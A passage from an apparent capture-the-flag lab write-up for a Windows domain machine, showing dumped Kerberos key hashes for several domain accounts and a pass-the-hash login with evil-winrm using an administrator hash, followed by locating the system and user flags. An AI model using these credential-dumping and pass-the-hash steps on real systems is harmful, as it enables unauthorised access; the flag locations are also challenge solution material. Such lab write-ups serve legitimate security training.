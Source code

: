 ```c
vulnnet-rst.local\enterprise-core-vn:aes128-cts-hmac-sha1-96:47ca3e5209bc0a75b5622d20c4c81d46
vulnnet-rst.local\enterprise-core-vn:des-cbc-md5:200e0102ce868016
vulnnet-rst.local\a-whitehat:aes256-cts-hmac-sha1-96:f0858a267acc0a7170e8ee9a57168a0e1439dc0faf6bc0858a57687a504e4e4c
vulnnet-rst.local\a-whitehat:aes128-cts-hmac-sha1-96:3fafd145cdf36acaf1c0e3ca1d1c5c8d
vulnnet-rst.local\a-whitehat:des-cbc-md5:028032c2a8043ddf
vulnnet-rst.local\t-skid:aes256-cts-hmac-sha1-96:a7d2006d21285baee8e46454649f3bd4a1790c7f4be7dd0ce72360dc6c962032
vulnnet-rst.local\t-skid:aes128-cts-hmac-sha1-96:8bdfe91cca8b16d1b3b3fb6c02565d16
vulnnet-rst.local\t-skid:des-cbc-md5:25c2739dcb646bfd
vulnnet-rst.local\j-goldenhand:aes256-cts-hmac-sha1-96:fc08aeb44404f23ff98ebc3aba97242155060928425ec583a7f128a218e4c5ad
vulnnet-rst.local\j-goldenhand:aes128-cts-hmac-sha1-96:7d218a77c73d2ea643779ac9b125230a
vulnnet-rst.local\j-goldenhand:des-cbc-md5:c4e65d49feb63180
vulnnet-rst.local\j-leet:aes256-cts-hmac-sha1-96:1327c55f2fa5e4855d990962d24986b63921bd8a10c02e862653a0ac44319c62
vulnnet-rst.local\j-leet:aes128-cts-hmac-sha1-96:f5d92fe6dc0f8e823f229fab824c1aa9
vulnnet-rst.local\j-leet:des-cbc-md5:0815580254a49854
WIN-2BO8M1OE1M1$:aes256-cts-hmac-sha1-96:afb47c9c041aa76bdcec5092c06b64cd2cc7bb5cc33a22e4e0b9c5395a2de9ba
WIN-2BO8M1OE1M1$:aes128-cts-hmac-sha1-96:b7b6f8d5712f5421fddc8150b8905b09
WIN-2BO8M1OE1M1$:des-cbc-md5:08df516ee67c4aad
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

Using the same write-up I learned about [**evil-winrm**](https://github.com/Hackplayers/evil-winrm). I then used that to try to get a foothold into the machine:

```c
evil-winrm -i 10.10.60.75 -u administrator -H c2597747aa5e43022a3a3049a3c3b09d
```

I then got into the machine! When I looked into the **C:\Users\Administrator\Desktop** I found the **system.txt** file. I then realized, that I had to look for the **user.txt** file next. I found the **user.txt** file in **C:\Users\enterprise-core-vn\Desktop**. I then had both flags:

![](<../../.gitbook/assets/image (162) (1).png>)
